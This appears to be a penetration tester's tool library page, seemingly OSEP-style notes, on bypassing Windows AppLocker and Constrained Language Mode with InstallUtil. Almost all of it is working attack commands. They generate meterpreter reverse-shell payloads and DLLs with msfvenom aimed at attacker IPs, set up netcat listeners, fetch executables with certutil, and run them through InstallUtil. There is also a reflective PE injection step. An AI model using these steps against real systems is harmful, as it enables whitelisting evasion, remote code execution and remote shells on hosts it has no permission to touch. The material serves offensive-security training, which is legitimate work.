 # InstallUtil

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools

Main Directory: ToolLibrary/AppLocker-CLM/InstallUtil

***

## AppLocker-Bypass&#x20;

will run a runner.ps1 which will be tied to a powershell code runner.&#x20;

### Requirements

The following powershell code runner is required and hosted on kali webserver (python http.server) and renamed to `runner.ps1`

* Reference: ToolLibrary/CodeRunners/powershellCodeRunner-32.ps1\
  Reference: ToolLibrary/CodeRunners/powershellCodeRunner-64.ps1



{% code overflow="wrap" %}
```bash
# payload for the powershellCodeRunner 32-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1

# payload for the powershellCodeRunner 64-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
```
{% endcode %}

### Execution Steps

{% code overflow="wrap" %}
```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```
{% endcode %}

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass.exe

***

## AppLocker-Bypass-Shell

will run a reverse shell and require netcat listener on designated IP address and Port

### Execution Steps

{% code overflow="wrap" %}
```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```
{% endcode %}

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass-shell.exe

***

## AppLocker-Bypass-DLL

### Requirements:

Invoke-ReflectivePEInjection.ps1 file hosted on attacker webserver (default port 80)

* ToolLibrary/AppLocker-CLM/AppLocker-Bypass-DLL/Invoke-ReflectivePEInjection.ps1

### Execution Steps

{% code overflow="wrap" %}
```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Create the meterpreter DLL (met.dll) and host it in http web directory
┌──(kali㉿kali)-[~/httpDirectory]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.227 LPORT=8080 EXITFUNC=thread -f dll > met.dll

# Download file via certutil -urlcache -f http://ip/CLMBypass-dll.exe dll.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U dll.exe
```
{% endcode %}

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass-DLL

